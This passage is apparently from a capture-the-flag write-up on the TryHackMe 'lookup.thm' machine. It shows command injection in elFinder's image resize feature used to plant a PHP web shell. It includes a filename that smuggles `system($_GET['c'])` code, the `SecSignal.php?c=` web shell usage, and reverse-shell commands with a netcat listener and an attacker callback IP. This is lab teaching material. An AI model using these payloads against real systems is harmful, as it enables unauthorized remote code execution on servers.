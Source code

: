 1. **Upload a malicious “image”:** The script uploaded a fake image file to the elFinder interface. The filename of this file was crafted to include a PHP payload. In the PoC, the payload was hidden by encoding PHP code in hex and using the Linux `xxd` utility to write it out – essentially planting a PHP web shell on the server. For example, a filename might be `evil.jpg;<?php system($_GET['c']);?>` (although the actual exploit encoded this to bypass filters). The key is the use of a semicolon `;` which on Linux can separate commands. The upload request sent to `connector.minimal.php` would smuggle an embedded command to create a `SecSignal.php` (web shell script) on the server.
2. **Trigger image processing:** Next, the script invoked an image **resize/rotate command** via the elFinder API (`cmd=resize` with parameters for width, height, degree, etc.), targeting the uploaded image. In vulnerable versions, this action concatenated the file name into a shell command (perhaps calling ImageMagick or GD utilities) *without* proper sanitization. The malicious filename then caused the previously injected PHP code to be executed. In the exploit script, this step resulted in the execution of the `xxd` command which wrote out the `SecSignal.php` file containing a PHP shell.
3. **Activate the web shell:** After the above, the script would verify if the `SecSignal.php` shell is accessible by making an HTTP request to it. Once confirmed, the attacker can send commands by accessing `SecSignal.php?c=<command>` – which passes the command to PHP’s system() call on the server.

Using this exploit, the attacker effectively gained the ability to execute arbitrary commands on the target as the **web server user** (which on Ubuntu/Apache is typically `www-data`). To get an interactive foothold, a **reverse shell** was initiated. This was done by instructing the web shell to execute a common payload: a one-liner to open a network connection back to the attacker’s machine and pipe it to a shell. For example, using PHP’s `system()` to call a bash one-liner or using a tool like Netcat. In practice, the Python exploit could be configured to automatically start a listener and send a reverse shell payload.

**Reverse shell details:** The exploit script accepted parameters for the attacker’s IP and port (denoted as `-lh <LocalHost>` and `-lp <LocalPort>` in the command usage). For instance:

```bash
# On the attacker machine, set up a netcat listener for the shell:
nc -lvnp 1337

# Run the exploit script to target the elFinder endpoint:
python3 exploit_elfinder.py -t "http://files.lookup.thm/elFinder/" -lh 10.8.181.99 -lp 1337
```

This would cause the target to connect back to IP `10.8.181.99` on port `1337` (which should be the attacker’s VPN IP and a port of choice). Once the exploit succeeded, the waiting Netcat listener on the attacker side showed a connection, and an interactive **shell prompt** appeared. The shell was running with user **`www-data`** privileges, confirming that we had remote code execution as the Apache service account.

*(It is worth noting one pitfall: initially, the reverse shell attempt failed because of a port mismatch. The listener was on one port while the exploit was set to connect to a different port. This was corrected by ensuring the listening port and the exploit’s configured callback port were the same. Coordination of IP/port is crucial when establishing reverse shells.)*

At this juncture, the **foothold** on the system was established. The next phase was post-exploitation: exploring the system from this low-privileged shell to find a way to escalate privileges further (eventually to root).

## Post-Exploitation Enumeration (LinPEAS and Manual Inspection)
